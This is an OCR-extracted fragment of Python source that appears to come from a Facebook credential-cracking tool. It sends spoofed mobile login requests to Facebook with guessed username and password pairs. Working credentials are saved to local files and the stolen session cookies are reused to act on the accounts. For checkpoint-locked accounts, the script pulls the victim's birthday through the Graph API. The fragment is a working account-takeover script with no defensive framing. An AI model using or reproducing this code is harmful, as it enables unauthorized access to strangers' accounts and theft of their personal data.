                     "origin":"https://m.facebook.com",
                    "content-type":"application/x-www-form-urlencoded",
                    "user-agent":"Mozilla/5.0 (Linux; Android 12; SAMSUNG SM-G780G) AppleWebKit/537.36 (KHTML, like Gecko) SamsungBrowser/16.0 Chrome/92.0.4515.166 Mobile Safari/537.36",
                    "accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
                    "x-requested-with":"XMLHttpRequest",
                    "sec-fetch-site":"same-origin",
                    "sec-fetch-mode":"cors",
                    "sec-fetch-user":"empty",
                    "sec-fetch-dest":"document",
                    "referer":"https://m.facebook.com/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F",
                    "accept-encoding":"gzip, deflate br",
                    "accept-language":"en-GB,en-US;q=0.9,en;q=0.8"
                }
                po = session.post(f'https://m.facebook.com/login/device-based/validate-password/?shbl=0', data = das, headers = header1, allow_redirects = False)
                if 'c_user' in session.cookies.get_dict():
                    coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                    print(f"\r{H} [STRV-OK] {user} | {pw}")
                    wrt = '%s|%s' % (user,pw)
                    ok.append(wrt)
                    open('STRV_OK.txt' , 'a').write('%s\n' % wrt)
                    self.follow(session,coki)
                    break
                elif 'checkpoint' in session.cookies.get_dict():
                    try:
                        tokenz = open('.token.txt').read()
                        cp_ttl = session.get(f'https://graph.facebook.com/{user}?fields=birthday&access_token={tokenz}').json()['birthday']
                        month, day, year = cp_ttl.split('/')
                        month = bulan_ttl[month]
                        print('\r%s [STRV-CP] %s | %s ' % (M, user, pw))
                        wrt = '%s|%s' % (user,pw)
                        cp.append(wrt)
                        open('STRV_CP.txt' , 'a').write('%s\n' % wrt)
                        break
                    except (KeyError, IOError):
                        month = ''
                        day   = ''
                        year  = ''
                    except:
                        pass
                    print('\r%s [STRV-CP] %s | %s ' % (M, user, pw))
                    wrt = '%s|%s' % (user,pw)
                    cp.append(wrt)
                    open('STRV_CP.txt' , 'a').write('%s\n' % wrt)
                    break
                else:
                    continue
            loop+=1
        except:
            self.__metode__(user, pw, cebok)
